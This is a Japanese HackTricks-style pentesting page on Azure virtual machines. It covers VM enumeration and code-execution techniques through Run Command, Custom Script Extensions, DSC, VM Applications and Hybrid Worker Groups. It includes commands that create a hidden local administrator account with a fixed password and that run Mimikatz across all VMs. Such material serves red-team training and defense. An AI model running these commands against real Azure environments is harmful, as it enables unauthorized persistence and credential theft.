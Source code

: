 # Az - 仮想マシンとネットワーク

{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **HackTricks**と**HackTricks Cloud**のgithubリポジトリにPRを提出して**ハッキングトリックを共有**してください。

</details>
{% endhint %}

## 基本情報

[公式ドキュメントから：](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure 仮想マシンは、Azureが提供する[オンデマンドでスケーラブルなコンピューティングリソース](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree)の1つです。通常、他の選択肢よりもコンピューティング環境をより細かく制御する必要がある場合に仮想マシンを選択します。この記事では、仮想マシンを作成する前に考慮すべき事項、作成方法、および管理方法についての情報を提供します。

## Azureネットワーク情報

Azureネットワークには**異なるエンティティと構成方法**が含まれています。異なるAzureネットワークエンティティの**簡単な説明**、**例**、および**列挙**コマンドについては、以下を参照してください：

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion**は、Azureポータルを介してSSL経由でセキュアかつ完全に管理されたRDP（リモートデスクトッププロトコル）およびSSH（セキュアシェル）アクセスソリューションを提供します。これはAzure仮想ネットワーク内に統合されており、プライベートIPを使用してVMへのRDPおよびSSH接続を可能にし、パブリックIPの必要性を回避します。これにより、パブリックIPの割り当てやVMアクセスのためのNSGルール構成を伴う従来の方法に比べて、より安全で便利な代替手段となります。開発者やITスタッフは、Webブラウザを使用してAzureポータルからVMに安全にアクセスでき、開発およびテスト環境のプロセスを効率化できます。

サブスクリプション内のすべてのAzure Bastionホストをリストするには、次のコマンドを使用できます：

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VMの列挙
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **VMでコマンドを実行する**

### **VMでのAADログイン**

AzureADを経由して認証されたユーザーにアクセスを許可することが可能です。たとえば、**Linux VM** にアクセスしようとする場合: `ssh username@azure-corp.com@1.1.1.1`（ログインしようとしているときに使用したazurecorpのメールを**使用する**ことが重要です）エラーが発生する可能性があります:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

**指示に従って**、[https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) に移動し、コードを指定し、メールアドレスとパスワードを資格情報として使用してSSH接続を行うことができます（そのユーザーがそのようにする権限を持っている場合：`Virtual Machine Administrator Login`または`Virtual Machine User Login`ロール）。

### **実行コマンド**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **カスタムスクリプト拡張機能の実行**

Azure仮想マシン（VM）拡張機能は、Azure VM上でのデプロイ後の構成および自動化タスクを提供する**小さなアプリケーション**です。たとえば、仮想マシンにソフトウェアのインストール、ウイルス対策、またはスクリプトの実行が必要な場合、VM拡張機能を使用できます。

したがって、それを書き込む権限があれば、任意のコードを実行できます：
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState（DSC）は、コードを介してホストを設定するために使用されるAnsibleに類似したPowerShellツールです。DSCはAzureと統合されており、特定の構成ファイルをアップロードできます。これらのファイルは厳密な構文に従う必要があります。特筆すべきは、AzureのDSC拡張機能が、DSCの基準に合致しないファイルからコマンドを実行できることです。これは提供された図で示されています。

これらのコマンドの実行は、Az PowerShellの[**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) 関数によって容易に行われます。要件には、定義された関数を持つ**.PS1**ファイルと、**.zip**ファイルに圧縮する必要があります。DSCの構文が正確でなくても、コードは実行されます。ただし、拡張機能は実行ステータスを「失敗」とマークし、ステータスが失敗メッセージによって上書きされるため、コマンドからの出力は表示されません。

### VMアプリケーションの定義

VMアプリケーションの定義を使用すると、バージョン管理されたアプリケーションをAzure VMに繰り返し展開できます。このリソースは、複数のVMにわたるアプリケーションの展開と更新をサポートします。これを設定するには、Az PowerShellの**`New-AzGalleryApplication`**や**`New-AzGalleryApplicationVersion`**などのコマンドを使用するいくつかのステップが必要です。

この方法でアプリケーションやコマンドを実行するには、**"VMAppExtension"**が関与します。これは、アプリケーションがVMに適用されると自動的にインストールされます。この拡張機能は、指定されたURIからファイルを取得し、アプリケーションと同じ名前で拡張子なしで保存します。ファイルを正しく実行するには、REST API呼び出しの「ManageActions」フィールドを構成して、ファイルを適切な拡張子でリネームする必要があります。この方法のセットアップが完了すると、提供された図に示されている構造に似ています。

ただし、この実行方法は比較的遅く、アプリケーションやコマンドの実行には約3〜4分かかります。このプロセスに関連するファイルは、アプリケーションのコピー用の`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\`および実行ステータス用の`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\`という特定のディレクトリに保存されます。

両方のテクニックは、Azure環境でコマンドを実行したりアプリケーションを展開したりするためのユニークな方法を提供し、それぞれ独自の要件、ステップ、および考慮事項を持っています。

### AzureのHybrid Worker Groups (HWGs)

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) は、Azureの機能であり、Automation Accountで構成されたRunbookを指定されたHWGの一部であるAzure仮想マシン（VM）で実行できるようにします。この実行は、VMにインストールされた拡張機能によって行われ、RunbookコードがVMに展開されます。このプロセスの重要な側面は、実際の資格情報が実行に影響を与えないことです。なぜなら、コードは特に**SYSTEM**またはrootとして昇格権限で実行されるからです。これは提供された図で示されています。

Windows 10 VMを利用するユーザーにとって重要な詳細は、RunbookのためにPowerShellバージョンを指定する必要性です。これは、PowerShell 7.1がこれらのVMにデフォルトでインストールされていないため、バージョン7.1を指定するとスクリプトの実行が失敗するためです。

Azureのこの機能は、ハイブリッド環境全体でのタスクの自動化と管理を効果的に行う方法を提供し、Azure VM上でのタスクの集中管理と実行を可能にします。
